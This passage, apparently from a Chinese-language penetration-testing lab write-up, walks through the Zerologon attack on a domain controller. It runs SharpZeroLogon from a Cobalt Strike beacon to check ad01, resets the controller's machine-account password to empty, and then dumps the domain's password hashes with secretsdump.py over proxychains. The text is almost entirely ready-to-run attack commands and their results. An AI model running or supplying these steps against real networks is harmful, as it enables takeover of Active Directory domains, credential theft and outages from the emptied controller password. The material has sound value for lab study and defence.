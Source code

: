 ```beacon
shell SharpZeroLogon.exe ad01.sec123.cnk
```

<img src=".\图片\1574d34fe217e9258b555e9b6e4125ab.png" alt="1574d34fe217e9258b555e9b6e4125ab" style="zoom:80%;" />

测试存在漏洞！

### 置空域控密码

```
shell SharpZeroLogon.exe ad01.sec123.cnk -reset
```

<img src=".\图片\0720852171ef580e74a26edf97c78f00.png" alt="0720852171ef580e74a26edf97c78f00" style="zoom:80%;" />

成功置空密码

### 使用 secretsdump.py 导出域Hash

这里的域控是属于内网的别忘了设置代理

```bash
 proxychains4 python3 secretsdump.py sec123/ad01\$@10.10.10.139 -no-pass
```

<img src=".\图片\41f98a4b09ba06a1270b18ca7978bae9.png" alt="41f98a4b09ba06a1270b18ca7978bae9" style="zoom:67%;" />
